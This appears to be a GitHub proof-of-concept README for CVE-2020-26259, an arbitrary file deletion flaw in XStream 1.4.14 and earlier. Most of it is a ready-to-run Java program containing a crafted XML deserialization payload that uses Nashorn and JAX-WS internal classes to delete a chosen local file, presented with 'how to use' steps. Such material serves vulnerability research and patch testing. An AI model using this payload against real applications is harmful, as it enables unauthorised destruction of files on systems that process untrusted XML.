 ## Description

XStream is vulnerable to an Arbitrary File Deletion on the local host when unmarshalling as long as the executing process has sufficient rights.

## Influence

Xstream <= 1.4.14

## How  to use

Step 1：Prepare a test file which will to be deleted in the future

![img](img/file.png)

Step 2: POC

~~~java
import com.thoughtworks.xstream.XStream;

public class CVE_2020_26259 {
    public static void main(String[] args) {
        String xml_poc = "<map>\n" +
                "  <entry>\n" +
                "    <jdk.nashorn.internal.objects.NativeString>\n" +
                "      <flags>0</flags>\n" +
                "      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>\n" +
                "        <dataHandler>\n" +
                "          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>\n" +
                "            <contentType>text/plain</contentType>\n" +
                "            <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>\n" +
                "              <tempFile>C:\\Al1ex.txt</tempFile>\n" +
                "            </is>\n" +
                "          </dataSource>\n" +
                "          <transferFlavors/>\n" +
                "        </dataHandler>\n" +
                "        <dataLen>0</dataLen>\n" +
                "      </value>\n" +
                "    </jdk.nashorn.internal.objects.NativeString>\n" +
                "    <string>test</string>\n" +
                "  </entry>\n" +
                "</map>";

        XStream xstream = new XStream();
        xstream.fromXML(xml_poc);
    }

}
~~~

Result:

![result](img/result.jpg)



## Reference

https://x-stream.github.io/CVE-2020-26259.html

